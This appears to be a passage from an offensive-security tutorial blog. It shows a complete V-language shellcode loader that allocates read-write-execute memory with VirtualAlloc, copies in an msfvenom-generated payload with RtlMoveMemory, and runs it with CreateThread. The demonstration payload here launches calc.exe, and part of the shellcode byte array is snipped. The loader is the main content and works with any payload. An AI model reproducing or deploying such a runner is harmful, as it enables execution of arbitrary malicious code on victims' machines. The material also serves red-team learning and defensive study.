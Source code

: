 ### Dynamically Allocate Memory

What does it take to run shellcode inside your process memory space?

To achieve this, we need to use the Win32 API to dynamically allocate RWX memory and start a thread pointing to the allocated memory region. The code will be the following:

```go
module main

import time

#flag -luser32
#flag -lkernel32

fn C.VirtualAlloc(voidptr, size_t, u32, u32) voidptr
fn C.RtlMoveMemory(voidptr, voidptr, size_t)
fn C.CreateThread(voidptr, size_t, voidptr, voidptr, u32, &u32) voidptr

fn inject(shellcode []byte) bool {
    println('Creating virtualAlloc')
    address_pointer := C.VirtualAlloc(voidptr(0), size_t(sizeof(shellcode)), 0x3000, 0x40)
    println(address_pointer)

    println('WriteProcessMemory')
    C.RtlMoveMemory(address_pointer, shellcode.data, shellcode.len)

    println('CreateRemoteThread')
    C.CreateThread(voidptr(0), size_t(0), voidptr(address_pointer), voidptr(0), 0, &u32(0))
    time.sleep(1000)
    return true
}

fn main() {
	// msfvenom -a x86 -p windows/exec CMD=calc.exe -f c -b '\x00'
    shellcode := [
        byte(0xda),0xc0,0xbf,0x66,0x3a,0x39,0xe5,0xd9,0x74,0x24,0xf4,0x5b,0x33,0xc9,0xb1,
        ..snip..
        0x52,0x8c,0x43,0x2f,0x3e,0x7d,0xe6,0xd7,0xa5,0x81]
    inject(shellcode)
}
```

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-08-24-OffensiVe-Security-with-V-Shellcode-Execution/shellcode_calc.gif" height="500" width="825" /></p>
